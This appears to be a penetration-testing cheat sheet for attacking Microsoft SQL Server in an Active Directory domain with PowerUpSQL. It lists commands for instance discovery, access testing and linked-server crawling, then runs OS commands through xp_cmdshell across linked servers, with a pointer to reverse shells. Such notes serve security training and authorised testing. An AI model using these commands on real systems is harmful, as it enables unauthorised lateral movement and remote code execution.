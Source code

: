 ## MS SQL 

```powershell
# Import PowerUpSQL.psd1
C:> Import-Module C:\AD\Tools\PowerUpSQL-master \PowerupSQL.psd1
```
### Enumerate
---
#### Discovery (SPN Scan)
```powershell
C:> Get-SQLInstanceDomain
```
#### Gather Information
```powershell
C:> Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```
#### Check Accessibility
```powershell
C:> Get-SQLConnectionTestThreaded
C:> Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```
### Database Links
---
#### Look for Links to Remote Servers
```powershell
C:> Get-SQLServerLink -Instance <mssql_instance> -Verbose
# Also can do the query "select * from master..sysservers"
```
#### Enumerate Database Links
```powershell
C:> Get-SQLServerLinkCrawl -Instance <mssql_instance> -Verbose
```
### Execute Commands
---
```powershell
# On Specific Instance
C:> Get-SQLServerLinkCrawl -Instance <mssql_instance> Query "exec master..xp_cmdshell 'whoami'" -QueryTarget <sq_host>

# Execute query on every link of the chain
C:> Get-SQLServerLinkCrawl -Instance <mssql_instance> Query "exec master..xp_cmdshell 'whoami'" 

# Use this queries to open reverse shells
```
